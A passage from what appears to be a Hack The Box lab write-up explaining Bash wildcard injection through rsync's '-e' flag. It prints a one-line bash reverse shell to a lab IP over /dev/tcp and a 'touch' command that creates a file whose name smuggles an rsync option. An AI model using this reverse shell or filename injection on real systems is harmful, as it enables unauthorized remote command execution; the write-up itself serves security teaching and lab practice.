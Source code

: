#### Background

Wildcard injection is something I’ve seen before on HTB, but not in a while. The issue is that Bash will expand out the wildcard to be a list of files. So when you do something like:

```

oxdf@hacky$ touch test1 test2 test3
oxdf@hacky$ rm *

```

On the second line, bash first expands the `*` to:

```

oxdf@hacky$ rm test1 test2 test3

```

And then runs that command. The trick is to make a file that actually looks like an argument to the command being run.

So for `rsync`, there’s the `-e` flag, [which](https://linux.die.net/man/1/rsync):

> ```

> -e, --rsh=COMMAND           specify the remote shell to use
>
> ```

This is a bit misleading. It actually typically looks like:

```

$ rsync -e sh PATH_TO_SCRIPT SRC DEST

```

So if I can create a file named `-e bash rev.sh`, the wildcard will inject into the command, and my command will run.

#### Reverse Shell

To pull this off, I’ll create two files. The first is a simple reverse shell generated with this `echo` command:

```

echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1' > 0xdf.sh

```

The second is an empty file, where the filename is the important part, generated with `touch`:

```

touch -- '-e bash 0xdf.sh'

```
